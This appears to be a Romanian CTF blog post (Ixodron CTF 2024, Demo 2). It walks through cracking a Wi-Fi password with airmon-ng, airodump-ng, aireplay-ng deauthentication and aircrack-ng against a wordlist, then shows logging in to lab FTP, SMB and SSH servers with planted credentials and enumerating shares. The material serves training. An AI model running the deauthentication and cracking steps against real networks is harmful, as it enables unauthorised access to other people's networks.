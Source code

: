 ```yaml
---
title: Ixodron CTF 2024 - Demo 2
date: 2024-09-03 09:00:00
categories:
  - CTFs
  - Ixodron CTF 2024
  - Demo
tags:
  - CTFs
  - Ixodron CTF 2024
  - Demo
toc: true
---
```


---
> Al doilea set de exerciții din seria de `Demo`-uri

---
<!-- more -->

<br>

## 1. Wi-Fi
> Spargerea parolei unei rețele Wi-Fi 

**1.1. Inserarea adaptorului de rețea (antena)**
<br>

**1.2. Configurarea interfeței de rețea**
```bash
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 down
iwconfig
```
```bash
sudo airmon-ng start wlan0
airmon-ng check kill
```

**1.3.Alegerea rețelei și clientului țintă**
```bash
sudo airodump-ng wlan0
```
```
sudo airodump-ng --bssid <INPUT> --channel <INPUT> --write capturefile wlan0
```

**1.4. Deuthentificarea clientului de la rețea**
> Dacă trimitem un număr mic de pachete de deautentificare, clientul nu-și va da seama că a fost deconectat, 
    iar noi vom putea intercepta direct parola criptată trimisă de acesta către router (access point)
```bash
sudo aireplay-ng --deauth 4 -a <target_MAC> -c <client_MAC> wlan0
```

**1.5. Spargerea parolei criptate**
```bash
sudo aircrack-ng capturefile.cap -w /usr/share/wordlist/rockyou.txt
```


<br>

## 2. Server FTP
> Conectarea la un server FTP (File Transfer Protocol)

FTP permite transferul fișierelor, atât prin autentificare anonimă pentru acces la fișiere publice, cât și prin autentificare utilizator (`ftp_user` cu parola `ftp_password_123!`) pentru acces privat; deși în scădere din cauza protocoalelor mai sigure, rămâne relevant în multe infrastructuri legate de gestionare a fișierelor mari. 

```bash Conectare server FTP (anonim)
ftp $IP
# anonymous
# [nu e nevoie de parola]

ftp anonymous@$IP

# get file.txt
# exit
```
```bash Conectare la server FTP (autentificat)
ftp $IP
# ftp_user
# ftp_password_123!

ftp ftp_user@$IP

# get flag.txt
# quit
```

<br>

## 3. Server SMB
> Conectarea la un server SMB (Server Message Block)

SMB, crucial pentru partajarea resurselor în rețelele de birou, permite accesul și modificarea fișierelor partajate; utilizatorul configurat `smb_user` cu `smb_password_123!` poate accesa partajarea prin SMB pentru colaborare eficientă. 
Fiecare serviciu este configurat să exemplifice utilizări comune în rețele și să sublinieze importanța securității și administrării corecte.

```bash Enumerarea automată a serverului SMB
# ce foldere sunt partajate și ce acces avem la ele?
smbmap -H $IP

# la ce fișiere avem acces?
smbmap -H $IP -r

# specificăm un folder pe care vrem să îl enumerăm
smbmap -H $IP -r public
smbmap -H $IP -r private
```
```bash Enumerare automată cu autentificare
smbmap -H $IP -u smb_user -p 'smb_password_123!'
smbmap -H $IP -u smb_user -p 'smb_password_123!' -r
```

```bash Conectare server SMB
smbclient //172.17.0.3/public -U smb_user%'smb_password_123!'

# ls
# get file.txt
# exit
```

<br>

## 4. Server SSH
> Conectarea la un server SSH (Secure Shell)

Serverul SSH este utilizat zilnic pentru administrarea de la distanță a serverelor, oferind acces securizat prin autentificare criptată; în configurația noastră, utilizatorul dedicat este `ssh_user` cu parola `ssh_password_123!`.

```bash Conectare server SSH
ssh ssh_user@172.17.0.2
# ssh_password_123!
```

<br>

---
---